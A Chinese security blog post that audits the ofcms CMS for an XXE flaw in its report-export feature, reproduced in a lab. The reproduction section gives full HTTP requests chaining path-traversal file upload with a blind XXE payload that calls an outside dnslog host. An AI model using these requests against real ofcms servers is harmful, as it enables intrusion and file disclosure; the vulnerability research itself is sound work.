 #  ofcms的XXE漏洞分析   
原创 派大星  赤弋安全团队   2025-05-29 01:52  
  
forever young  
  
  
  
路虽远行则将至，  
事虽难做则必成。  
  
  
01  
  
代码审计  
  
赤弋安全  
  
XXE 代码审计常搜索的关键字如下：  
```
XMLReader
SAXBuilder
SAXReader
SAXParserFactory
Digester
DocumentBuilderFactory
...
```  
  
还有一个特殊的，用于加载.jrxml  
文件，还是JasperReports  
特定的 XML 格式，用于定义报告模板。  
```
JRXmlLoader
```  
  
该项目大量存在XMLReader  
，SAXBuilder  
，Digester  
等这些函数，大多都是内部调用，唯一一处调用，文件位置位于：com/ofsoft/cms/admin/controller/ReprotAction.java  
其中的expReport  
方法。  
  
接下来我们一步一步进行分析。	  
  
第 35 行，获取响应包，通过getParamsMap  
返回的result Map 类型赋值给 Map 类型的数据集 hm，通过 j(string 类型)赋值给 jrxmlFileName  
。  
  
第 39 行，创建一个新的文件，路径是根路径和上面的路径进行拼接，接着从请求中获取reportName  
赋值给 filename  
，返回信息报表文件名的路径。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138Xk1LL1IE5L7yKsZHWDtlkbOO1tIibqZc2I5oCibVSzYVialwtialIZwEWXQ/640?wx_fmt=png&from=appmsg "")  
  
这里getParamsMap()  
有传参，后面将输入的值传递给 hm  
 和 jrxmlFileName  
 服务器接收用户输入的参数 j 后，拼接生成文件路径，这里没有进行过滤，可以穿越到其他目录，但是限制了文件的后缀为 jrxml。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138Xl2EmQFyKlWNlhiacZv9lJficNsdyA7zzgWbSt6tiadYibqNDFqrYaIbUXA/640?wx_fmt=png&from=appmsg "")  
  
接下来会调用JasperCompileManager.compileReport()  
方法，跟进方法进行查看。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8cA6Jlk7uqppUNBEnwgMLR0pU2KzUAX7Mgj9QQSKgmGgibGcX5a4iawLlobpDeLv9Wjsx8Wia8rOvDw/640?wx_fmt=png&from=appmsg "")  
  
继续跟进，来到D:\apache-maven-3.6.1\mvn_resp\net\sf\jasperreports\jasperreports\5.6.1\jasperreports-5.6.1.jar!\net\sf\jasperreports\engine\JasperCompileManager.class  
第 79 行，这里使用了JRXmlLoader.load()  
，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138Xabn9z51ZxKPXn1csXsLNiaYr7CUhPZCWelTgrlD54jTBUpibeqCyztfQ/640?wx_fmt=png&from=appmsg "")  
  
继续跟进  
了 JRXmlLoader.load 方法处理 XML 文件，最后查看到本质还是调用了digester.parse  
，进行了处理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138XbaqZPnDDvUicCvickWd2abR9ecxxh6Ojbp5bakSMsgoXOtqkYnvSF8ng/640?wx_fmt=png&from=appmsg "")  
  
从接口还有路径可知，这就是一个通用的导出功能。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138XbdBLO1YaIRG6m3S89f7ibvKVjTsO08ECyEu0Ixsib4iae4xDyIAUnOJdg/640?wx_fmt=png&from=appmsg "")  
  
ReprotAction  
类的expReport()  
方法将其调用，并且ReprotAction  
类上存在一个@Action(path = "/reprot")  
注解，也就是说这里可以被前端请求触发执行，触发该expReport()  
方法的接口为：/admin/reprot/expReport.json  
。  
  
接下来做两件事：  
  
1、确定传参，有无过滤。  
  
2、触发接口，进行漏洞测试。  
  
从下面这段代码可以看出：compileReport(new FileInputStream(file))  
的 file 是从"/WEB-INF/jrxml/" + jrxmlFileName + ".jrxml"  
获取的.jrxml  
文件，而具体什么文件，由前端传递的"j"  
参数决定。  
  
简单来说就是：在/WEB-INF/jrxml/  
目录下寻找"j"  
参数指定的.jrxml  
文件，进行jrxml  
文件的解析。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138X3m4X9YOtRzbjtbtl6ic97BrG94V90hLvnam0Ne2KpuMN1kaC649haHQ/640?wx_fmt=png&from=appmsg "")  
  
在整个调用链中对文件并没有进行过滤，包括也没有禁止解析外部实体(默认是可以解析外部实体的)，所以这里存在 XXE 漏洞。  
  
那这样的话，我们只需要保证：前端触发/admin/reprot/expReport.json  
接口时，传递"j"  
参数指定的.jrxml  
文件中存在恶意外部实体，就可以实现漏洞利用。  
  
这里还有一个问题："j"  
参数指定的.jrxml  
文件是在/WEB-INF/jrxml/  
目录下，这里我们是不可控的，因此怎么让它能够加载一个存在恶意外部实体的.jrxml  
文件呢？  
  
这里只能结合该cms的文件上传漏洞，写入恶意.jrxml  
，来实现XXE漏洞的利用（如果这里不存在文件上传漏洞，这里无法利用）。  
  
接下来，尝试利用一下：（这里没有回显，使用盲XXE方式）  
  
02  
  
漏洞复现  
  
赤弋安全  
  
任意文件上传一个带恶意外部实体的.jrxml  
文件。  
```
POST /admin/cms/template/save.json HTTP/1.1
Host: 192.168.1.8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.8
Cookie: JSESSIONID=572DD825340524B985A7A640DC18E95F
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://192.168.1.8/admin/cms/template/getTemplates.html
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 5142
file_path=D%3A%5Capache-tomcat-8.5.68%5Cwebapps%5CROOT%5CWEB-INF%5Cpage%5Cdefault%5Cindex.html&dirs=%2F&res_path=&file_name=..%2F..%2F..%2Fstatic%2Fexp.jrxml&file_content=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%3C!ENTITY%20%25%20exp%20SYSTEM%20%22http%3A%2F%2Fxyblfvjxop.yutu.eu.org%22%3E%25exp%3B%5D%3E%0A%20%0A
```  
  
file_content 解码如下：  
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % exp SYSTEM "http://dnslog">%exp;]>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138XdlK79OyQFRdGzXSMq3PlatMI3rDqbdDx6WMZINtQtcTMvhJeysK8uw/640?wx_fmt=png&from=appmsg "")  
  
触发/admin/reprot/expReport.json  
接口，根据功能和接口可以定位到：用户管理-导出全部。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138XxrU7X8Kw1w0EhOP6Bfw847M2G0tNbvOEO6mmhSvCNApiaRbM7mVTPGQ/640?wx_fmt=png&from=appmsg "")  
  
```
Url：http://192.168.1.8/admin/reprot/expReport.html?j=../../static/exp&reportName=20160813
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138XWibia8EiaBYvA2tdvEx1sItockIfbTlYicdQYmmicuCVSpC9dXVV6R4ctMQ/640?wx_fmt=png&from=appmsg "")  
  
成功请求 dnslog 地址。  
  
